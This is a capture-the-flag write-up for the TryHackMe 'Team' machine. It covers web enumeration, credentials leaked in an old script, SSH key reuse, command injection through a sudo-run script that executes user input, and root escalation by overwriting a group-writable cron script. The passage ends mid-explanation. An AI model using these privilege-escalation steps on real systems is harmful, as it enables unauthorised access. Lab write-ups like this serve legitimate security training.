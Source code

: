 port: 21,22,80 open

Unable to login to ftp with: `anonymous` username

Went to port 80 webserver where apache2 was running, I noticed in source page, it is written that we have to add _hostname-ip_ to /etc/hosts, to work properly => `virtual hosts`.

Then visited team.thm => used gobuster.

Got this:
```
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/]
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/index.html           (Status: 200) [Size: 2966]                              
/robots.txt 
```
In robots.txt, I got the name of the user: dale

In /scripts/ `=> I got script.txt (bash script) -> which tells us that this file is new, and does not have any creds`
It tells:
```
# Updated version of the script
# Note to self had to change the extension of the old "script" in this folder, as it has creds in
```
Then I downloaded: `script.old` which has the creds for ***`ftp login`***.

In ftp server, I found another file named: `New_site.txt`
where, it was written:
```
It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.
```

So, we can find the `id_rsa` priv key for `Dale`

We logged in as dale and got the user.flag

Now for:
* `sudo -l`

We can see the file: `/home/gyles/admin_checks`

Seeing the script named: `admin_checks`
We can see the output generated by it except error (`$error 2>/dev/null`)
```
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```
We can also see present user: `dale` has `sudo permission` and the executable file can be run by `gyles` user

```
$ ls -la /home/gyles/admin_checks
-rwxr--r-- 1 gyles editors 399 Jan 15 21:52 /home/gyles/admin_checks
```
```
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: doesnotdepend
Enter 'date' to timestamp the file: bash
The Date is id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```

Then we got a shell, as we can see we are logged in as `gyles` user

We then discovered in /opt directory as bash shell named: `admin_stuff`

Within that:
```
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```
It runs 2 backups, one for the dev_site and one for the main_site, all thanks to ***`Cron job`***. let’s have a look at those:
```
ls -l /usr/local/sbin/dev_backup.sh
-rwxr-xr-x 1 root root 64 Jan 17 19:42 /usr/local/sbin/dev_backup.sh
ls -l /usr/local/bin/main_backup.sh
-rwxrwxr-x 1 root admin 65 Jan 17 20:36 /usr/local/bin/main_backup.sh
```

We can see that `/usr/local/bin/main_backup.sh` can be modified by anyone oin the admin group and gues what!!***`gyles`*** user is in _admin_ group


Now, what we can do is:

1. Update the script with bash revshell to get a root shell
2. Though this will not be successful. Why? Well, let me explain...
We can simple place
```
echo "cat root.txt > /home/dale/flag.txt" > /usr/local/bin/main_backup.sh
```
to get the result in /home/dale/flag.txt file, considering `root.txt is present in /root directory`. But in case, `root.txt` not present in /root directory, it would not work at first.


